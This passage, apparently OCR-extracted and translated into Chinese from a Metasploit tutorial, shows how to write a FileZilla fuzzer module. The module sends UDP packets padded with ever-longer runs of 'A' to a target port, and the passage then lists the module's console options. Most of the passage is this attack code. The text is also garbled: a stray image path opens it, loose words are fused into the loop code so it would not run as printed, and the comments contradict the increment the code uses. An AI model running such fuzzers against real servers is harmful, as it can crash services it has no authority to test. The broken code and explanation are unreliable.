 ```
], self.class)
end

```

因此，我们已经导入了 MSF 库，创建了一个类，并定义了我们的选项。下一步将是定义 fuzzer 的主体。

```
def run_host(ip)
udp_sock = Rex::Socket::Udp.create(
'Context' =>
{
'Msf' => framework,
'MsfExploit' => self,
}
)
startsize = datastore['STARTSIZE'] # fuzz data size to begin with
count = datastore['STEPSIZE'] # Set count increment
simple FileZilla FTP fuzzerwritingwhile count < 10000 # While the count is under 10000 run
evil = "A" * count # Set a number of "A"s equal to count
pkt = "\x00\x02" + "\x41" + "\x00" + evil + "\x00" # Define the payload
udp_sock.sendto(pkt, ip, datastore['RPORT']) # Send the packet
print_status("Sending: #{evil}")
resp = udp_sock.get(1) # Capture the response
count += 100 # Increase count by 10, and loop
end
end
end 
```

让我们分析脚本。脚本以创建 UDP 套接字开始，该套接字将需要与 FileZilla 服务器建立连接。然后，我们声明变量`startsize`和`count`，它们分别保存 fuzzer 的数据大小起始值和增量长度的值。然后，我们设置一个循环，在该循环下我们声明我们的恶意字符串和将作为数据包（pkt）发送的有效负载格式。

然后，脚本尝试使用`udp_sock_sendto`函数将数据包发送到服务器，并使用`resp=udp_sock.get()`捕获其响应。此外，每次接收到响应时，数据包的计数都会增加 100。

## 它是如何工作的...

要开始使用该模块，我们需要将其保存在`modules/auxiliary/fuzzers/ftp`下。让我们将 fuzzer 模块命名为`filezilla_fuzzer.rb：`

```
msf > use auxiliary/fuzzers/ftp/filezilla_fuzzer
msf auxiliary(filezilla_fuzzer) > show options
Module options (auxiliary/fuzzers/ftp/filezilla_fuzzer):
Name Current Setting Required Description
---- --------------- -------- -----------
DELAY 0.5 no Delay between..
ENDSIZE 20000 no Fuzzing string endsize
RHOSTS yes The target address
RPORT 14147 yes The target port
STARTSIZE 10 no Fuzzing string startsize
STEPSIZE 10 no Increase string size.. 
```

因此，我们的模块运行正常，并向我们显示可用的选项。让我们传递相应的值并查看我们传递`run`命令时会发生什么：
